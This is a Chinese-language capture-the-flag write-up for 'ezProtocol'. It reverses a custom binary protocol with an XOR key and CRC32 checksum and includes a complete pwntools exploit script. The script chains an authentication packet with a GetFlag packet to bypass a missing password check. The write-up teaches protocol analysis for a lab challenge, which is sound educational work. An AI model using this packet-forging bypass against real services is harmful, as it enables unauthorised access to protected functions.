




# ezProtocol

## 题目简述

协议分析题。泄露的 `protocol.txt` 给出 10 字节包头、magic/type/length/checksum 字段和 XOR key `NCTF`；结合流量可确认 payload 只是与 key 异或。认证后同一连接中 `GetFlag` 只检查用户名为 admin，不再校验密码，可拼接两个 packet 取 flag。

## 解题过程

泄露的部分协议内容 protocol.txt ：

```javascript
const (
        Magic = 0x47414D45
        TypeAuth    = 0x01
        TypeQuery   = 0x02
        TypeGetFlag = 0x03
        HeaderSize = 10
        OffsetMagic    = 0
        OffsetType     = 4
        OffsetLength   = 5
        OffsetChecksum = 6
        OffsetPayload  = 10
)
var Key = []byte{0x4e, 0x43, 0x54, 0x46}
checksum := crc32.ChecksumIEEE(append(headerBytes, payloadBytes...))
```

可以推测出一个packet由10字节的header以及后续的payload组成，一个header又由4字节的magic

头、1字节的消息类型type、1字节的payload长度length、4字节的checksum组成Key是NCTF ，光看泄露的协议还不知道有什么用，结合测试流量分析：



原始数据：



可以看到magic头GAME 、type、length都没做处理，可以肯定是用Key对payload的原始明文进行了处理，尝试后就能发现是进行了简单的异或：





对流量中前两次测试的payload进行解密，可以获取到GetFlag的条件以及可以认证成功的账号密码ctfer/NCTF2026 ：

```json
{"message":"Only admin can get flag","status":"error"}
{"password":"NCTF2026","username":"ctfer"}
```

最后一次测试的流量是一次通信里先后分别用ctfer和test2进行认证，也就是说服务器能处理一次发送的多个packet，经过尝试就能知道GetFlag的操作并没有对密码进行验证，如果一次通信的状态是已认证，那么只需要满足另外一个条件username为admin即可获得flag，最终exp：

```python
from pwn import *
import zlib
import struct
p = remote("challenge.host", PORT)
def XOR(data, key):
    result = ""
    for i in range(len(data)):
        result += chr(ord(data[i]) ^ ord(key[i%4]))
    return result.encode()
key = "NCTF"
magic = b"GAME"
payload1 = '{"password":"NCTF2026","username":"ctfer"}'
payload1 = XOR(payload1, key)
msg_type1 = struct.pack("B", 1)
length1 = struct.pack("B", len(payload1))
header1 = magic + msg_type1 + length1
checksum1 = struct.pack(">I", zlib.crc32(header1 + b"\x00"*4 + payload1))
packet1 = header1 + checksum1 + payload1
payload2 = '{"username":"admin"}'
payload2 = XOR(payload2, key)
msg_type2 = struct.pack("B", 3)
length2 = struct.pack("B", len(payload2))
header2 = magic + msg_type2 + length2
checksum2 = struct.pack(">I", zlib.crc32(header2 + b"\x00"*4 + payload2))
packet2 = header2 + checksum2 + payload2
packet = packet1 + packet2
p.send(packet)
result = hex(int.from_bytes(p.recv(), "big"))
print(result)
```

## 方法总结

- 核心技巧：自定义协议字段还原、XOR payload 解密和连接状态认证绕过。
- 识别信号：流量中包头明文字段稳定、payload 类似可逆乱码且有短 key 常量时，先试 XOR。
- 复用要点：构造包时要按服务端 checksum 规则计算 header+zero checksum+payload，并利用同连接多 packet 状态。
